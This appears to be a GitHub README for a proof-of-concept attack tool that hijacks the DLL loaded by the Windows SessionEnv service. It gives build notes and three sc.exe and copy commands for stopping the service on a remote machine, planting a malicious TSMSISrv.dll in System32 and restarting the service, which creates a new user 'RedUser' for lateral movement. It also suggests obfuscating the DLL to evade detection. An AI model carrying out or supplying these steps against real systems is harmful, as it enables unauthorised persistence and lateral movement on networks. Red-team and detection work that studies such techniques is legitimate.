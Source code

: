 # TSMSI-SRV-FI-POC

## Description

The default service titled 'SessionEnv' contains a DLL hijack.
A user with admin privileges can utilize this service for lateral movement to a remote machine using the Execute Method below.

This POC in C# leverages the called functions of the TSMSISrv.dll by including malicious instructions within StartComponent.

The result of the script: creates a new Windows user called 'RedUser'

## Build Process

Please ensure you have the UnmanagedExports Package installed and are building for your target architecture e.g Framework 4.0.

## Execution Instructions

1. `sc.exe \\REMOTECOMPUTER stop SessionEnv`
2. `copy TSMSISrv.dll to C:\Windows\System32\TSMSISrv.dll`
3. `sc.exe \\REMOTECOMPUTER start SessionEnv`

Execution should have occurred on the remote machine and added a new user called "RedUser"

Suggestion: Run the project through offensive pipeline to obfuscate the DLL.
